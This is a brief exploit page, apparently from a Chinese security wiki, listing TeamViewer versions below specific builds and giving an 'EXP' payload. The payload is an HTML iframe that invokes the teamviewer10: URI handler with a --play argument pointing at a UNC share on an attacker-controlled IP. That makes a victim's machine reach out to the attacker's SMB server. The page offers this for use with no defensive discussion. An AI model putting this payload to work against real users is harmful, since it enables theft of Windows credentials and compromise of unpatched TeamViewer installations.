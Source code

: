 <languages  /> <translate>

影響版本
--------

</translate>

    TeamViewer < 8.0.258861 TeamViewer < 9.0.28860 TeamViewer < 10.0.258873 TeamViewer < 11.0.258870 TeamViewer < 12.0.258869 TeamViewer < 13.2.36220 TeamViewer < 14.2.56676 TeamViewer < 15.8.3

EXP
---

    （iframe src='teamviewer10: --play \\attacker-IP\share\fake.tvs'）